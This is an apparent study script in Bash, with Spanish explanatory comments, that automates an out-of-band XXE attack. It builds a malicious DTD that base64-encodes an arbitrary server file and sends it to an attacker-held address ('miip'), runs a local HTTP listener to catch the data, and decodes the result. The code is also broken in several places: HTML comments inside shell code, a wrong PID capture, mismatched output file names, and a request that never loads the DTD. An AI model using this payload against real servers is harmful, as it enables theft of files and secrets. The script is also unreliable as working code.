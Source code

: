 # XXE_OOB

#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -r miarchivo
<!--e para aplicar el salto de linea (caracteres especiales
-n para poder meter el input en la misma linea que el echo
 read lee el input del usuari y lo guarda en mi rchivo
-r para que acepte espacios y de todo, guarde el input literal-->

malicious_dtd=""" # triple comilla para pillar varias lineas de codigo
<!--ojo por que hayque escapar las comillas con \-->
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$miarchivo\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://miip/?file=%file; '>\"> 
<!--ojo por que al crear una entidad dentro de otra entidad, hay que representarla en hexadecimal
 para representar % en hexadecimal se deberia de poner %#x y luego su valor en hexadecimal y luego ;, que es 25 -> &#x25;
 exfil es una entidad dentro de otra 
 ahora habria que llamar a las entidades eval y exfil para que tdo sea ejecutado.-->
%eval;
%exfil;
<!--file no hace falta por que se llama desde exfil-->
"""

echo $malicious_dtd > malicious.dtd
<!--tenemos que volcar todo en el archivo, por que en la peticion se leera de ese archivo-->

python3 -m http.server 80 &>respuesta &
<!--mandamos el sterr y el stdout a respuesta y lo ponemos en segundo plano-->
PID=!$
<!--!$ hace referencia l elemento anterior y si ha sido puesto en segundo plano se guarda si PID-->
sleep 1 
<!--daremos unos segundos a que se levnate el servidor-->


<!--aqui meteremos la peticion, podemos obtenerla dl raw de burpsuite, por ejemplo:-->

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?><root><name>Juan</name><tel>6666666666</tel><email>juan@mola.com</email><password>juan123</password></root>'
<!--s , silencioso, no mostrara output
-X , indica el metodo, en este caso por post
process.php es a donde se hace la petición
-d , incluir datos que queramos que viajen con la peticion-->

cat reponse | grep -oP "/?file=\K[^-*\s]+" | base64 -d

kill -9 $PID
<!--matamos l proceso del PID-->
wait $PID 2>/dev/null
<!--speraremos a que muera el PID y redirigiremos el stout al dev null para no ver el process killed-->




<!--Ahora se guarda y cuando se ejecute, epodremos hacer cat response  ver el output guardado-->


